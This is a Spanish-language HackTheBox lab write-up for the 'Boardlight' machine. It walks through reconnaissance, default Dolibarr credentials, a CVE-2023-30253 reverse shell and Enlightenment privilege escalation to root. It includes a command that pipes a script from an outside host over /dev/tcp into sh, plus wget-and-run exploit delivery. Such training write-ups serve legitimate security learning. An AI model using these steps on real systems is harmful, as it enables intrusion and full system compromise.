 ```yaml
---
title: Boardlight
layout: default
parent: HackTheBox
---
```


# Boardlight
{:.no_toc}

---

1. List
{:toc}

---

## Reconocimiento

Primero comprobaremos que la máquina esta activa con nmap que solo envíe un ping:

```bash
nmap -sn 10.10.11.11
```

Comprobamos que podemos hacerle ping, por lo que ahora pasaremos a hacer un reconocimiento más intensivo, para saber que puertos tiene abiertos. Hacemos un escaneo de todos los puertos TCP abiertos sin descubrimiento de hosts ni resolución DNS exportando a un archivo grepeable.

```bash
nmap -p- -sS --open --min-rate 5000 10.10.11.11 -n -Pn -oG allPorts
```

Se nos muestra que hay dos puertos abiertos, el 22 y el 80. Con la utilidad **extractPorts** podemos extraer los puertos y poder pegarlos de forma más fácil.

Ahora veremos la versión de estos con un escaneo de versión de servicios a un archivo de nmap

```bash
nmap -sCV -p22,80 10.10.11.11 -oN targeted
```

```
nmap -sCV -p22,80 10.10.11.11 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-17 06:39 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE Timing: About 0.00% done
Nmap scan report for 10.10.11.11 (10.10.11.11)
Host is up (0.027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.00 seconds
```

Podemos ver que es una máquina Ubuntu con un servicio web Apache 2.4.41

Al abrirla en el navegador nos encontramos con un home con un menú lateral derecho, con varios apartados como *About* y una página de contacto. Lo más interesante es al final de la página un pequeño formulario para enviar una petición de llamada. Al introducir la información no tenemos respuesta, por lo que deberemos interceptar que tipo de respuesta se envía al servidor con burp suite.

Interceptamos que es una petición con xml, pero no podemos hacer más por esta parte.

![](/assets/images/Imagenes/Pasted image 20240912230937.png)


Después de esto, podemos probar a realizar un escaneo de subdominios para averiguar si hay más portales con alguna posibilidad de explotación. Para ello primero deberemos añadir a la lista de hosts la resolución de ip de la máquina, en este caso la 10.10.11.11 con dirección **board.htb**.

![](/assets/images/Imagenes/Pasted image 20240912232117.png)

Después con la herramienta **ffuf** buscaremos subdominios que pueda tener el servidor. Con el siguiente comando buscamos con el diccionario de el repositorio de SecLists cualquier coincidencia con el millón de subdominios más usados, comparando el parámetro que le indiquemos, en este caso un subdominio de board.htb, y obviando en este caso, ya que salen demasiadas coincidencias, los resultados con un tamaño de 15949.

```shell
ffuf -w /usr/share/wordlists/secLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://board.htb -H "Host: FUZZ.board.htb" -fs 15949
```

Es más recomendable filtrar por el tamaño, de palabras o de líneas que por el estado de la página.

Tras realizarlo y filtrar tenemos como coincidencia el subdominio **crm**.

![](/assets/images/Imagenes/Pasted image 20240912233227.png)

Después, al igual que hemos hecho con el dominio, para resolver la dirección deberemos añadir al archivo **/etc/hosts** la dirección y resolución DNS.

![](/assets/images/Imagenes/Pasted image 20240912233405.png)

Al acceder al subdominio nos aparece una página de login de un gestor de contenido llamado Dolibarr.

![](/assets/images/Imagenes/Pasted image 20240912233548.png)

Podemos buscar las credenciales por defecto antes de intentar cualquier método de fuerza bruta. En este caso para Dolibarr en su versión 17 es **admin/admin**.

![](/assets/images/Imagenes/Pasted image 20240912233822.png)

Con ello conseguimos iniciar sesión en el gestor, pero no tenemos permisos de administrador. Podríamos probar a intentar cambiar el id de usuario en detalles de este.

![](/assets/images/Imagenes/Pasted image 20240912234956.png)

Sin embargo está protegido ante estos ataques:

![](/assets/images/Imagenes/Pasted image 20240912235031.png)

Por último podemos buscar por vulnerabilidades de la versión de la aplicación web, como hemos visto Dolibarr 17, y ver si es posible explotarla. Al buscar vemos que existe la CVE-2023-30253.

## Explotación

![](/assets/images/Imagenes/Pasted image 20240912235301.png)

En este caso es poder generar una reverse shell a través de inyección PHP.

![](/assets/images/Imagenes/Pasted image 20240912235515.png)

Podemos ver los parámetros que tiene para realizar el ataque. Para ejecutarlo, primero deberemos estar en escucha por un puerto para captar la reverse shell, en este caso usando netcat.

```shell
nc -lvnp 443
```

Después ejecutaremos el código para conseguir la reverse shell:

```shell
python3 exploit.py http://crm.board.htb admin admin 10.10.14.169 443
```

Con esto ejecutamos el exploit hacia el dominio seleccionado con el usuario y contraseña creados **admin/admin** y que se realice por el puerto 443 hacia nuestra IP. Con esto conseguiremos la reverse shell captada con netcat.

![](/assets/images/Imagenes/Pasted image 20240913000153.png)

Ya dentro de la máquina podemos buscar formas de ganar privilegios, ya que somos el usuario www-data. Buscando entre archivos, el archivo /www/html/crm.board.htb/htdocs/conf/conf.php contiene datos de inicio de sesión de un usuario:

![](/assets/images/Imagenes/Pasted image 20240913000803.png)

Comprobamos que funciona:


![](/assets/images/Imagenes/Pasted image 20240913001102.png)

## Escalada de privilegios

Dentro del directorio del usuario larissa está la flag de usuario. Después para escalar privilegios usaremos la utilidad **LinPeas** (Linux Privilege Scalation). Para ello debemos descargar el script y después que la máquina víctima lo ejecute de nuestro dispositivo.

Primero con netcat montaremos un servidor con el archivo:

```shell
sudo nc -q 5 -lvnp 80 < linpeas.sh
```

Después pediremos desde la máquina víctima a la que tenemos acceso a ejecutar ese script.

```shell
cat < /dev/tcp/10.10.10.10/80 | sh
```

![](/assets/images/Imagenes/Pasted image 20240913004817.png)


Tras correr el script vemos que hay varios archivos que usarse para escalar privilegios

```python
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                 
                      ╚════════════════════════════════════╝                                                       
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                   
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device                                          
-rwsr-sr-x 1 root root 15K Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)                                                                                                        
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)                                                                                                   
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)                                                                                                  
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)                                                                                
-rwsr-xr-- 1 root messagebus 51K Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 467K Jan  2  2024 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root dip 386K Jul 23  2020 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-xr-x 1 root root 44K Feb  6  2024 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 55K Apr  9 08:34 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8                                                                                                           
-rwsr-xr-x 1 root root 163K Apr  4  2023 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 67K Apr  9 08:34 /usr/bin/su
-rwsr-xr-x 1 root root 84K Feb  6  2024 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 39K Apr  9 08:34 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 87K Feb  6  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 67K Feb  6  2024 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                                                
-rwsr-xr-x 1 root root 39K Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 52K Feb  6  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 15K Oct 27  2023 /usr/bin/vmware-user-suid-wrapper

```


Podemos ver que puede que haya una vulnerabilidad con la utilidad enligtenment de linux.

[Vulnerabilidad Enlightenment v.0.25.3 - Escalada de privilegios](https://www.exploit-db.com/exploits/51180)

https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2022-37706

Descargamos el script, e igual que anteriormente montamos un servidor con python para desde la máquina víctima recoger el script y ejecutarlo.

Host atacante

```shell
python3 -m http.server 80 
```


Máquina víctima

```shell
wget 10.10.14.169/exploit.sh
```

Después le damos permiso con **chmod +x exploit.sh** y lo ejecutaremos, ganando acceso root:

![](/assets/images/Imagenes/Pasted image 20240913010252.png)